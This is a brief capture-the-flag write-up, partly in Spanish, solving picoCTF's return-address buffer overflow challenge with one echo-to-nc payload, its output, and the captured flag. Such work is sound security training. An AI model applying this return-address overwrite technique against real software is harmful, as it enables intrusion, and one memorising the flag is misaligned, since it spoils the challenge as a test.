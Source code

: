 # Objetivo

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln). You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 55689`

# Solucion

```Shell

┌──(kali㉿kali)-[~]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 55689  
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}                                                                                                        

```

# Notas adicionales

# Referencias